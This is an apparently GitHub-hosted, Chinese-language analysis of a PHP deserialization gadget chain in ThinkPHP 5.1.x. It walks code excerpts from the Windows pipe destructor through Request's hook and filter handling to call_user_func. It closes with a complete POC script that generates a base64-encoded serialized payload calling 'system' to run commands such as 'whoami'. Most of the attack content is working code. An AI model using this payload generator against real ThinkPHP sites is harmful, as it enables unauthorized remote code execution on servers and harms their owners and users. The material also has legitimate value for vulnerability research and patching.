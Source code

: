 # **TP 5.1.x  反序列化链**
## **利用分析**
### **入口点**
thinkphp/library/think/process/pipes/Windows.php的__destruct()调用removeFiles()方法,在removeFiles()中使用了file_exists()触发__tostring()方法
```php

    public function __destruct()
    {
        $this->close();
        $this->removeFiles();//
    }
    //
    private function removeFiles()
    {
        foreach ($this->files as $filename) {
            if (file_exists($filename)) {//触发__tostring()
                @unlink($filename);
            }
        }
        $this->files = [];
    }
```
全局搜索__toString(),在thinkphp/library/think/model/concern/Conversion.php的__toString()调用了__tojson(),又在toJson()中调用toArray()方法
```php
    public function __toString()
    {
        return $this->toJson();
    }

    public function toJson($options = JSON_UNESCAPED_UNICODE)
    {
        return json_encode($this->toArray(), $options);
    }
```
在toArray()中,\$this->append数组可控,所以\$key和\$name则可控,在`$this->getRelation($key);`中返回为空,接着调用getAttr(),而在getAttr()中返回值为$this->getdata(\$name)
```php
public function toArray()
    {
        $item    = [];
        $visible = [];
        $hidden  = [];
        ...
        ...
        // 追加属性（必须定义获取器）
        if (!empty($this->append)) {
            foreach ($this->append as $key => $name) {
                if (is_array($name)) {
                    // 追加关联对象属性
                    $relation = $this->getRelation($key);//返回空,即$relation为null

                    if (!$relation) {
                        $relation = $this->getAttr($key);//$relation=new request()
                        $relation->visible($name);//触发request的__call()
                    }
        ...

            public function getRelation($name = null)
    {
        if (is_null($name)) {//不满足
            return $this->relation;
        } elseif (array_key_exists($name, $this->relation)) {//不满足
            return $this->relation[$name];
        }
        return;//返回空
    }
```
来到getdata()中,因为\$this->data可控,那么则可以通过设置\$this->append的键名和\$this->data的键名相同即可,即直接返回\$this->data中键对应的值,我们将其对应的值设置为request对象的话,那么在接下来的 `$relation->visible($name);`中就会触发request类的__call方法
```php
    public function getData($name = null)
    {
        if (is_null($name)) {
            return $this->data;
        } elseif (array_key_exists($name, $this->data)) {//
            return $this->data[$name];//返回request对象
        } elseif (array_key_exists($name, $this->relation)) {
            return $this->relation[$name];
        }
        throw new InvalidArgumentException('property not exists:' . static::class . '->' . $name);
    }
```
在Request的_call方法中,使用了`call_user_func_array($this->hook[$method], $args);`,而$this->hook是可控的,那么就会执行可控数组中的visible对应的值方法,那么可以通过设置\$this->hook为`        $this->hook = ["visible"=>[$this,"isAjax"]];`那么变成了`call_user_func_array([$this->isAjax], $args);`从而执行isAjax()
```php
    public function __call($method, $args)
    {
        if (array_key_exists($method, $this->hook)) {
            array_unshift($args, $this);
            return call_user_func_array($this->hook[$method], $args);
        }

        throw new Exception('method not exists:' . static::class . '->' . $method);
    }
```
而在isAjax()中则调用了param()方法,其中`$this->config['var_ajax']`可控,及传入的$name
```php
    public function isAjax($ajax = false)
    {
        ...
        $result           = $this->param($this->config['var_ajax']) ? true : $result;
        $this->mergeParam = false;
        return $result;
    }
```
在param()中,将$this->param和get参数合并为\$this->param,后调用input方法,并将合并后的参数传入
```php
    public function param($name = '', $default = null, $filter = '')
    {
        ...
                    // 当前请求参数和URL地址中的参数合并
            $this->param = array_merge($this->param, $this->get(false), $vars, $this->route(false));//$this->param和$GET参数都可控

        ...
                return $this->input($this->param, $name, $default, $filter);
    }
```
在input()方法中,首先\$data的值从getData()中获取,其取出在\$this->param(上一步合并后的值)中的\$name元素(即\$this->config[var_ajax)的值,然后\$filter则是\$this->filter的值,可控,然后便调用filterValue()方法
```php
 public function input($data = [], $name = '', $default = null, $filter = '')
 {
             ...
            $data = $this->getData($data, $name);
             ...
            $filter = $this->getFilter($filter, $default);
            if (is_array($data)) {
            array_walk_recursive($data, [$this, 'filterValue'], $filter);
            if (version_compare(PHP_VERSION, '7.1.0', '<')) {
                // 恢复PHP版本低于 7.1 时 array_walk_recursive 中消耗的内部指针
                $this->arrayReset($data);
            }
        } else {
            $this->filterValue($data, $name, $filter);
}
```
在filterValue()中则调用call_user_func()其中\$filter和\$value都可控,造成RCE
```php
    private function filterValue(&$value, $key, $filters)
    {
        $default = array_pop($filters);

        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                // 调用函数或者方法过滤
                $value = call_user_func($filter, $value);
```
### **POC**
因为\$data(也就是要执行的命令)是通过合并\$this->param和\$GET数组后取得,所以既可以把命令写死在$this->param中,或者写在\$GET数组中,只要参数名与\$this->config[var_ajax)的值相同即可
```php
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["poc"=>['1']];
        $this->data = ["poc"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system";
    protected $config = [
        'var_ajax'         => '_ajax',
    ];
    protected $param = [];
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>'poc'];
        $this->hook = ["visible"=>[$this,"isAjax"]];
        //$this->param=['poc'=>'whoami'];//命令写死在poc里,或者通过$GET方式传入与\$this->config[var_ajax)对应的值也可以
    }
}
namespace think\process\pipes;
use think\model\concern\Conversion;
use think\model\Pivot;
class Windows
{
    private $files = [];

    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
namespace think\model;
use think\Model;
class Pivot extends Model
{
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?>
```
![](2.png)
